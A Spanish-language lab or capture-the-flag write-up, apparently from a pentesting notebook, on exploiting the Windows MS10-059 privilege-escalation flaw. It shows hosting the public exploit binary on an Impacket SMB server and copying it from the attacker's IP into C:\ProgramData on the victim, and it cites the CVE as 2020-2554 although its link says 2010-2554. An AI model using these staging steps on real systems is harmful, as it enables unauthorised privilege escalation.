 ### Exploitation MS10-059 - Tracing Feature for Services

Después de revisar posibles vulnerabilidades que se nos han reportado, decidimos en optar en verificar si podíamos llegar a explotar la vulnerabilidad `MS10-059` reportada como `CVE-2020-2554`.

{% embed url="https://www.incibe.es/incibe-cert/alerta-temprana/vulnerabilidades/cve-2010-2554" %}

{% hint style="danger" %}
El Tracing Feature for Services en Microsoft Windows Vista SP1 y SP2, Windows Server 2008 Gold, SP2, y R2, y Windows 7 tiene un ACLs incorrecto en su llave de registro, lo que permite a usuarios locales obtener privilegios a través de vectores que relacionan una tubería (pipe) y suplantación, conocido como "Vulnerabilidad de traza de llave de registro de ACL"
{% endhint %}

En el siguiente repositorio de GitHub, se nos proporcionan distintos exploits entre los cuales disponemos del `MS10-059`. El binario de `MS10-059.exe` (`Chimichurri.exe`) el cual compartiremos a través de un servidor `SMB` que nos montaremos en nuestro equipo.

{% embed url="https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS10-059" %}

```bash
❯ ls -l MS10-059.exe
.rw-rw-r-- kali kali 766 KB Thu Feb 20 23:24:10 2025  MS10-059.exe

❯ smbserver.py smbFolder $(pwd) -smb2support
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
```

Desde el equipo víctima, copiaremos el binario en un directorio que dispongamos permisos de ejecución, como en este caso, el directorio `C:\ProgramData`.

```bash
C:\ProgramData>copy \\10.10.16.3\smbFolder\MS10-059.exe C:\ProgramData\MS10-059.exe
copy \\10.10.16.3\smbFolder\MS10-059.exe C:\ProgramData\MS10-059.exe
        1 file(s) copied.

C:\ProgramData>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 137F-3971

 Directory of C:\ProgramData

21/02/2025  12:24 ��           784.384 MS10-059.exe
13/12/2020  12:50 ��    <DIR>          VMware
               3 File(s)        908.800 bytes
               1 Dir(s)   4.691.062.784 bytes free
```
